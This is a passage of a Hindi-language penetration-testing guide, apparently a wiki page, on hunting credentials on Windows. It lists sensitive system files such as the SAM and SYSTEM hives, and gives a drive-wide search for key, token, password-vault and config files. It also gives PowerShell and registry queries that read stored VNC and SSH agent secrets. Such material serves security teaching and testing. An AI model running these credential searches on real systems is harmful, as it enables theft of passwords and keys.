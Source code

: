 ```bash
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software, %WINDIR%\repair\security
%WINDIR%\iis6.log
%WINDIR%\system32\config\AppEvent.Evt
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
%WINDIR%\system32\CCM\logs\*.log
%USERPROFILE%\ntuser.dat
%USERPROFILE%\LocalS~1\Tempor~1\Content.IE5\index.dat
```
सभी प्रस्तावित फ़ाइलों की खोज करें:
```
cd C:\
dir /s/b /A:-D RDCMan.settings == *.rdg == *_history* == httpd.conf == .htpasswd == .gitconfig == .git-credentials == Dockerfile == docker-compose.yml == access_tokens.db == accessTokens.json == azureProfile.json == appcmd.exe == scclient.exe == *.gpg$ == *.pgp$ == *config*.php == elasticsearch.y*ml == kibana.y*ml == *.p12$ == *.cer$ == known_hosts == *id_rsa* == *id_dsa* == *.ovpn == tomcat-users.xml == web.config == *.kdbx == KeePass.config == Ntds.dit == SAM == SYSTEM == security == software == FreeSSHDservice.ini == sysprep.inf == sysprep.xml == *vnc*.ini == *vnc*.c*nf* == *vnc*.txt == *vnc*.xml == php.ini == https.conf == https-xampp.conf == my.ini == my.cnf == access.log == error.log == server.xml == ConsoleHost_history.txt == pagefile.sys == NetSetup.log == iis6.log == AppEvent.Evt == SecEvent.Evt == default.sav == security.sav == software.sav == system.sav == ntuser.dat == index.dat == bash.exe == wsl.exe 2>nul | findstr /v ".dll"
```

```
Get-Childitem –Path C:\ -Include *unattend*,*sysprep* -File -Recurse -ErrorAction SilentlyContinue | where {($_.Name -like "*.xml" -or $_.Name -like "*.txt" -or $_.Name -like "*.ini")}
```
### RecycleBin में क्रेडेंशियल्स

आपको इसके अंदर क्रेडेंशियल्स की तलाश के लिए बिन की भी जांच करनी चाहिए

कई प्रोग्राम द्वारा सहेजे गए **पासवर्ड को पुनर्प्राप्त करने** के लिए आप उपयोग कर सकते हैं: [http://www.nirsoft.net/password_recovery_tools.html](http://www.nirsoft.net/password_recovery_tools.html)

### रजिस्ट्री के अंदर

**क्रेडेंशियल्स के साथ अन्य संभावित रजिस्ट्री कुंजी**
```bash
reg query "HKCU\Software\ORL\WinVNC3\Password"
reg query "HKLM\SYSTEM\CurrentControlSet\Services\SNMP" /s
reg query "HKCU\Software\TightVNC\Server"
reg query "HKCU\Software\OpenSSH\Agent\Key"
```
[**Registry से openssh कुंजी निकालें।**](https://blog.ropnop.com/extracting-ssh-private-keys-from-windows-10-ssh-agent/)

### ब्राउज़र्स इतिहास
